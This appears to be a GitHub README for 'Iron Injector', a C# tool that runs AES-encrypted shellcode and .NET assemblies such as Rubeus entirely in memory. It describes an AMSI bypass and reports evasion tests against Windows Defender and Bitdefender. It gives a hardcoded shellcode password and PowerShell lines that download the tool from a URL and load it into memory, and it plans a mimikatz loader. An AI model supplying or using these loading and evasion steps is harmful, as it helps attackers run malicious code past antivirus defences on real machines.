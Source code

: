 # Iron Injector
Iron Injector is a c# program that allows the user to run a few modules from an interactive prompt. These include ShellLoader and ProgramLoader. ShellLoader serves to load AES encrypted shellcode, given the filename, url, and loader type. Programloader takes a url and program name and conducts a simple AMSI bypass to edit a registry value while the assembly is running and then repair it once the program loader module has been exited. While interacting with the assembly, users can send commands as they would normally do from the command line all while the assembly is in memory and has never touched disk.

![image](https://user-images.githubusercontent.com/15575425/158653309-61d17062-6b70-429e-b51c-527ca533f3bd.png)



## Usage & Command Info
The program comes with two main modules and a set of aux commands to be ran to help the user with input and navigation. 

### The help command
![image](https://user-images.githubusercontent.com/15575425/158652978-d4ff1f1a-6a73-4d3e-afd2-ea846275aa63.png)

### Loading Modules and execution
1. To load a module, just type out the name of the module. Ex: ShellLoader  
2. To see the Modules options, use the Options command.  
3. To set a modules option, use: Set optionName Value   
4. To execute the module, use run   
![image](https://user-images.githubusercontent.com/15575425/158653827-46c72464-6336-44d0-b31b-0916156cd50b.png)

### AES encryption
At the moment, the shellcode loader only takes AES encrypted shellcode. See my ShellcodeEncryption project for code that works with this project to decrypt the shellcode. Either way, the shellcode encryption password that should be used is **!r0nInj3ct0r123!** 

### The Connect Assembly Command 
This command is used to connect to an already loaded assembly after using exit on the interactive prompt from when the assembly is loaded using program Loader. 
ex. ConnectAssembly name.exe
![image](https://user-images.githubusercontent.com/15575425/158664122-43ef2902-328e-4dd1-af1b-f0a1b11f7ecc.png)
This shows an already loaded rubeus.exe; then, using the exit command, I stopped interaction with it downloaded a new exe to interact with then used **connectassembly rubeus.exe** to restart the interaction with the assembly. 

### Loading Iron Injector in memeory
![image](https://user-images.githubusercontent.com/15575425/158663020-816a8615-8572-4c42-af76-59b3a1808ad6.png)
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Iron Injector.exe')"    
2. "$assem =[System.Reflection.Assembly]::Load($data)"    
3. "[Iron_Injector.Program]::Main()"    
** NOTE: the double quotes are just for formatting do not include when running command**    

### AV bypass?
I have found it works best with stageless shellcode and the program loader uses an amsi bypass to patch a small registry entry this has been caught on some runs and not on others. Like all AV bypasses the challenge and techniques are always updating and the program will be updated with new techniques in the future. 

All testing was done as of 3/15/2022 against windows defender and bitdefender AV with cloud protections
![image](https://user-images.githubusercontent.com/15575425/158664740-80d23cc9-cd55-4cfd-80dc-4f8434b18659.png)
![image](https://user-images.githubusercontent.com/15575425/158664809-80b0e359-2dc5-4fde-9fb9-a541ee1146fb.png)
![image](https://user-images.githubusercontent.com/15575425/158664826-e80a9f72-a344-4d13-8e03-eb6803467a3c.png)


## Features
- verification of user commands vs available commands  
- verification that option trying to be set is real  
- checks that all required options are set before running  
- execution of encrypted shellcode   
- execution of .net assemblies with the ability to restart interaction all in memory  
- can itself be loaded into memory  

## Compile Instructions 
- download and open in VS, at the top set mode to release and CPU to any or x64 then build. 

## Possible Future content
- pe loader to load things like mimikatz  
- more shellcode loading methods  
- custom aes encryption password setting   
- better methods of AV bypass for loading .net assemblies  

## Disclaimer
I am not responsible for actions taken by users of Iron Injector. Iron Injector was released solely for educational and ethical purposes.
